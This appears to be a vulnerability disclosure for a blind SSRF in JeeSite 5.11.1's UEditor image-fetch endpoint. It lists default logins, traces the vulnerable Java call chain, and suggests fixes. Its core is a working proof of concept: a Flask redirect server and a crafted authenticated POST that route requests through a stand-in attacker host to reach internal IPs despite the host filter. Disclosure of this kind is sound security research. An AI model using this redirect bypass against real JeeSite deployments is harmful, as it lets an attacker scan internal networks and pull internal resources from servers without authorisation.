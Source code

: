 # jeesite_ssrf
# 0x01 Vulnerability Overview

A Server-Side Request Forgery (SSRF) vulnerability exists in JeeSite version 5.11.1, specifically in its integration of Baidu's UEditor component. The endpoint /js/a/file/ueditor/catchimage allows authenticated users to supply arbitrary external or internal URLs via the source[] parameter, which are then fetched by the server using Java's HttpURLConnection.

Internal IP access filtering is implemented but can be bypassed using a redirect through an attacker-controlled server. The backend only saves resources with an allowed MIME type such as image/jpeg. Since the response body is not returned to the attacker, this is a blind SSRF.

![image](https://github.com/user-attachments/assets/393312f5-fd45-435a-b5a3-5b626f46ed9c)

# 0x02 Environment and Setup

Tested project:

GitHub: https://github.com/thinkgem/jeesite5

Version: 5.11.1

Local environment:

JDK 17+

Maven 3.8+

MySQL 5.7 or embedded H2 DB

Executed via: /web/bin/run-tomcat.bat

Initial login:

URL: http://127.0.0.1:8980/js

Default accounts:

Admin: system / admin

Normal user: user1 / 123456

Authentication is required. All SSRF attempts must include a valid session cookie such as:

Cookie: jeesite.session.id=87a7cbddd3c449a6bfb96c1627baa9e9

![image](https://github.com/user-attachments/assets/8e4020f2-3417-47ee-81d1-857a7eb0d548)


# 0x03 Vulnerability Details

Vulnerable Endpoint:

POST /js/a/file/ueditor/catchimage
Host: 127.0.0.1:8980
Content-Type: application/x-www-form-urlencoded
Cookie: jeesite.session.id=4f805314119f46fcb2a372884987b3da

source[]=http://internal-ip:port/file.jpg

The following Java classes contain the vulnerable logic:

ImageHunter.java
ActionEnter.java

Call chain summary:
ActionEnter.exec() parses the action value.
If action = catchimage, it invokes ImageHunter.capture().
The source[] parameter is obtained via config field catcherFieldName.
ImageHunter.capture() iterates the list and calls captureRemoteData().

Inside captureRemoteData(), it uses:
connection = (HttpURLConnection) url.openConnection();
suffix = MIMEType.getSuffix(connection.getContentType());

Only content with image-type MIME headers will be written to disk.

![image](https://github.com/user-attachments/assets/d90828cc-71c2-4ea6-b55f-1b61cd151e8c)
![image](https://github.com/user-attachments/assets/7ee41efe-89ae-4301-a3a4-979db539cd30)
![image](https://github.com/user-attachments/assets/c2bc7eb8-aa37-4cb1-bf4e-2bee3a67f799)
![image](https://github.com/user-attachments/assets/044d646f-1887-49b6-9c01-1dd9602b370d)
![image](https://github.com/user-attachments/assets/cfc5c88a-ffdb-46d3-ac59-00f3843691fb)
![image](https://github.com/user-attachments/assets/dfe4a3d3-f126-4e27-a211-c6869f4dec63)


# 0x04 Redirect-based IP Bypass

Although internal IP access is blocked by host validation logic:

if (!validHost(url.getHost())) {
    return new BaseState(false, AppInfo.PREVENT_HOST);
}

...this can be bypassed using a redirect. JeeSite will follow 302 redirections, but the final Content-Type is still validated.

Example attacker-controlled Flask redirect server:

from flask import Flask, request, redirect
app = Flask(__name__)

@app.route("/ssrf")
def go():
    url = request.args.get("url")
    return redirect(url, code=302)

app.run(host="0.0.0.0", port=8000)

Log in to JeeSite with any user (e.g., user1 / 123456).
Craft a POST request:

POST /js/a/file/ueditor/catchimage
Host: target.com
Content-Type: application/x-www-form-urlencoded
Cookie: jeesite.session.id=87a7cbddd3c449a6bfb96c1627baa9e9

source[]=http://attacker.com:8000/ssrf?url=http://192.168.1.17:80/test.jpg

If the image exists and responds with the correct content-type, JeeSite will store the file.

Access it via:

http://target.com/userfiles/ueditor/image/yyyy/mm/dd/xxx.jpg

![image](https://github.com/user-attachments/assets/a6eeb768-ae1b-4381-b084-74774a0f65ea)
![image](https://github.com/user-attachments/assets/5be1e6d0-09a7-4fe6-b749-b8c540bc0e24)


# 0x05 Limitations

The SSRF is blind; no response body is returned to the user.

Only URLs that respond with Content-Type: image/jpeg or similar will be saved.

Requests to services like AWS metadata (http://169.254.169.254/) are ineffective unless they respond with allowed image MIME types.

# 0x06 Impact

Internal port scanning and basic service detection

Indirect file access via image content trick

Can serve as a foothold in chained internal attacks (e.g., uploading image-encoded secrets)

# 0x07 Suggested Fixes

Perform strict IP address validation after following redirects

Maintain a denylist for localhost, private IP ranges, and metadata IPs

Restrict access to UEditor image fetching endpoint or disable it if unused

